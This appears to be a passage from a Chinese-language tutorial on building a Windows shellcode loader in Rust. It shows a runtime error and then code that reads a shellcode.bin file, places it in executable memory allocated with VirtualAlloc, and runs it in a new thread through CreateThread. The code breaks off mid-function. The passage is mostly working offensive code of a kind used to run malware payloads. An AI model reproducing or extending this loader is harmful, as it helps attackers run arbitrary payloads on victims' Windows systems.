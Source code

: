 执行一下

```bash
.\loader_demo.exe
fatal runtime error: thread::set_current should only be called once per thread
```

报错很明显， `rust` 的线程初始化函数只能被调用一次， 而我们执行时的主线程在创建时已经被`call`过一次了， 因此我们用`create_thread` 来执行一下

```rust
use std::fs::File;
use std::io::{self, Read};
use std::mem;
use std::ptr;
use std::os::windows::ffi::OsStrExt;
use winapi::um::memoryapi::VirtualAlloc;
use winapi::um::winnt::{MEM_COMMIT, MEM_RESERVE, PAGE_EXECUTE_READWRITE, HANDLE};
use winapi::um::processthreadsapi::CreateThread;
use winapi::um::synchapi::WaitForSingleObject;

unsafe extern "system" fn thread_func(param: *mut winapi::ctypes::c_void) -> u32 {
    let shellcode = param as *const u8;
    let func: fn() = mem::transmute(shellcode);
    func();

    0
}

fn main() -> io::Result<()> {
    println!("[+] will run!");
    let mut file = File::open("shellcode.bin")?;
    let mut shellcode = Vec::new();

    file.read_to_end(&mut shellcode)?;

    let exec = unsafe {
        VirtualAlloc(
            ptr::null_mut(),
            shellcode.len(),
            MEM_COMMIT | MEM_RESERVE,
            PAGE_EXECUTE_READWRITE,
        )
    };

    if exec.is_null() {
        eprintln!("内存分配失败");
        return Err(io::Error::new(io::ErrorKind::Other, "内存分配失败"));
    }

    unsafe {
        ptr::copy_nonoverlapping(shellcode.as_ptr(), exec as *mut u8, shellcode.len());
        let thread_handle: HANDLE = CreateThread(
            ptr::null_mut(),
            0,
            Some(thread_func),
            exec,
            0,
            ptr::null_mut(),
        );

        if thread_handle.is_null() {
            eprintln!("创建线程失败");
            return Err(io::Error::new(io::ErrorKind::Other, "创建线程失败"));
        }
        WaitForSingleObject(thread_handle, 0xffffffff);
```